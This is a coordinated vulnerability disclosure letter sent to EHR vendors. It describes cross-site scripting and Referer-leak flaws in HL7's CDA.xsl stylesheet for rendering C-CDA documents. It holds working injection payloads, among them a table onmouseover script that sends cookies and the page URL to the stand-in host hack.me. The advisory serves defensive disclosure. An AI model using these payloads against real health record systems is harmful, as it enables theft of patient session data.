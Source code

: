 ﻿### Dear EHR Vendor,

I'm a medical informatics researcher at Boston Children's Hospital, and I'm
writing to share some security considerations pertinent to any EHR that
displays Consolidated CDA documents for Meaningful Use (especially in a Web
browser environment). I would appreciate if you could ensure that the message
below reaches someone on your security team.

Best,

  Josh Mandel, MD

  Lead Architect, SMART Platforms

  Harvard Medical School / Boston Children's Hospital

---

### Dear Security Team,

I'm writing to report a *potential security vulnerability* in the display of
Consolidated CDA documents. To be clear, I haven't tested whether your EHR
products are vulnerable to the issues below, but I have found that they
*affect some production EHR systems*, and I wanted to share this report with Web-based EHR vendors privately before I describe it in public on the [SMART Platforms
blog](http://smartplatforms.org).

In short, the concern has to do with the use of XSLT "stylesheets" to
display externally-supplied C-CDA documents in the EHR. To be specific:
**the CDA.xsl stylesheet provided by HL7 (which I've seen broadly adopted by many EHR vendors) can  leave EHRs vulnerable to attacks by maliciously-composed documents.**

The "TL;DR" version is: If you're using XSLT stylesheets to render C-CDAs in
your EHR, make sure you understand the security implications. Otherwise you
could be vulnerable to a data breach.

**I would appreciate if you could reply to me** so I can track the dissemination of
this notice. My plan is to write a public blog post that would be published on
3/21/2014. If you discover that your system is vulnerable and you need more
time to repair it, please let me know prior to 3/20, and I can delay publication if necessary.

Best,

  Josh Mandel, MD

  Lead Architect, SMART Platforms

  Harvard Medical School / Boston Children's Hospital




### Three fundamental attacks

Many vendors appear to be using (slightly modified) versions of the
[CDA.xsl](https://github.com/chb/sample_ccdas/blob/master/CDA.xsl) that comes
with HL7's C-CDA release. This provides potential attackers with a highly
visible, leveragable target.

My analysis revealed at least three ways to craft a malicious C-CDA. I'll discuss both in detail:


#### 1. Unsanitized `nonXMLBody/text/reference/@value` can execute JavaScript
One opportunity for injection attacks is the default handling of a `nonXMLBody` CDA. 

```
<xsl:template match='n1:component/n1:nonXMLBody'>
  <xsl:choose>
  <!-- if there is a reference, use that in an IFRAME -->
  <xsl:when test='n1:text/n1:reference'>
  <IFRAME name='nonXMLBody' id='nonXMLBody' WIDTH='80%' HEIGHT='600' src='{n1:text/n1:reference/@value}' />
</xsl:when>
```

This means we can get javascript to execute if we can supply it in a reference like:

```
<nonXMLBody>
  <text>
    <reference value="javascript:alert(window.parent.location);"/>
  </text>
</nonXMLBody>
```

The resulting HTML rendering would include the following dangerous snippet:

```
  <iframe src="javascript:alert(window.parent.location);"></iframe>
```

#### 2. Unsanitized `table/@onmouseover` can execute JavaScript

A valid C-CDA document is not allowed to provide `table/@onmouseover`
attributes. But if invalid documents are allowed into a system, then the
following permissive "copy all" can be dangerous:

```
<!-- Tables -->
<xsl:template
  match="n1:table/@*|n1:thead/@*|n1:tfoot/@*|n1:tbody/@*|n1:colgroup/@*|n1:col/@*|n1:tr/@*|n1:th/@*|n1:td/@*">
  <xsl:copy>
    <xsl:copy-of select="@*" />
    <xsl:apply-templates />
  </xsl:copy>
```

What this says is: "when you find a `table` in the C-CDA document, just copy
all of its XML attributes right into the rendered document. An attacker can use
this to inject JavaScript in the resulting document. For example, an attacker
could steal cookies and pass them back to an external server with: something
like:

```
<table onmouseover="
  var i=document.createElement('img');
  i.style.display='none';
  i.src='https://hack.me/from/'+
        encodeURIComponent(document.URL)+
        '/cookie/'+
        encodeURIComponent(document.cookie);
  document.body.appendChild(i);"></table>
```

The resulting HTML would contain the source `table` element verbatim.

As written, this would only work if the user moves the mouse over what could be
a small, isolated table in the C-CDA document. But providing a `table/@style`
can increase the attack surface to encompass the entire page:

```
<table style="height: 100%;
              z-index: 10;
              width: 100%;
              position: fixed;
              left: 0px;
              top: 0px;" 
       onmouseover="[as before]" style=""></table>
```

Now the infected table covers the entire document area, so moving the mouse
anywhere within the document will cause our code to run. 

#### Unsanitized `observationMedia/value/reference/@value` can leak state via HTTP `Referer` headers

Searching CDA.xsl for the term `img`, reveals two places where image tags are
emitted.  Both occur within the `renderMultiMedia` template definition:

```
<xsl:template match="n1:renderMultiMedia">
  <xsl:variable name="imageRef" select="@referencedObject" />
      <!-- snipped for brevity -->
      <xsl:if
        test="//n1:observationMedia[@ID=$imageRef]/n1:value[@mediaType='image/gif' or @mediaType='image/jpeg']">
        <br clear="all" />
        <xsl:element name="img">
          <xsl:attribute name="src"><xsl:value-of
              select="//n1:observationMedia[@ID=$imageRef]/n1:value/n1:reference/@value" /></xsl:attribute>
        </xsl:element>
      </xsl:if>
      <!-- snipped for brevity -->
</xsl:template>
```

By constructing an appropriate `section` in a C-CDA document to act as input to
the template above, an attacker can cause the browser to leak the current page
URL to `https://hack.me`:

```
<text>
  This image loads from an external server...
  <renderMultiMedia referencedObject="MM1"></renderMultiMedia>
</text>
<entry>
  <observationMedia ID="MM1">
    <id root="10.23.4567.345"/>
    <value xsi:type="ED" mediaType="image/jpeg">
      <reference value="https://hack.me/leaked-from-image.png"/>
    </value>
  </observationMedia>
</entry>
```

The resulting HTML would include the potentially dangerous snippet:

```
<img src="https://hack.me/leaked-from-image.png"></img>
```

Each time the document is viewed, the browser sends an HTTP `Referer` header to `hack.me` that inclues the source page URL. This can be dangerous if any private session state is embedded in that URL.
